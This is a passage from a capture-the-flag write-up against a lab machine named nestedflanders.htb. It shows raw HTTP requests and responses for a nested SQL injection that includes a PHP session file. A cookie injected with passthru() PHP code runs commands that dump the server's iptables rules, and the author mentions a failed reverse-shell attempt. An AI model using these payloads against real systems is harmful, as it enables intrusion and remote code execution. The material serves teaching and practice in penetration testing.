 ```
X-Upstream: 127.0.0.1:8080

<!DOCTYPE html>
----------------
 Removed Output
----------------
<!-- <div align="center"> -->
PHPSESSID|s:26:"c5vmccsqkle2rdionj28kit221";RCE|s:26:"www-data
";<!-- </div> -->

</div> <!-- row -->
</div> <!-- container -->

</body>
</html>
```
<br> I spent a lot of time trying to get a reverse shell and I couldn't, so I checked `iptables` rules :
<br> Request :
```
GET /index.php?id=25%27+UNION+SELECT+%22main%27+UNION+SELECT+%27/var/lib/php/sessions/sess_c5vmccsqkle2rdionj28kit221%27%3b--+%22%3b--+ HTTP/1.1
Host: www.nestedflanders.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=c5vmccsqkle2rdionj28kit221; RCE=<?php passthru('cat /etc/iptables/rules.v4')?>;
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
<br> Response :
```
HTTP/1.1 200 OK
Server: nginx/1.10.3
Date: Fri, 23 Aug 2019 16:27:11 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 1592
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
X-Upstream: 127.0.0.1:8080

<!DOCTYPE html>
----------------
 Removed Output
----------------
<!-- <div align="center"> -->
PHPSESSID|s:26:"c5vmccsqkle2rdionj28kit221";RCE|s:46:"# Generated by iptables-save v1.6.0 on Wed Dec 19 21:55:49 2018
*filter
:INPUT DROP [7:1813]
:FORWARD ACCEPT [0:0]
:OUTPUT DROP [34:2661]
-A INPUT -i lo -j ACCEPT
-A INPUT -i ens33 -m state --state RELATED,ESTABLISHED -j ACCEPT
-A INPUT -i ens33 -p tcp -m multiport --dports 80,443 -j ACCEPT
-A INPUT -i ens33 -p icmp -j ACCEPT
-A FORWARD -m state --state RELATED,ESTABLISHED -j ACCEPT
-A FORWARD -j DROP
-A OUTPUT -o lo -j ACCEPT
```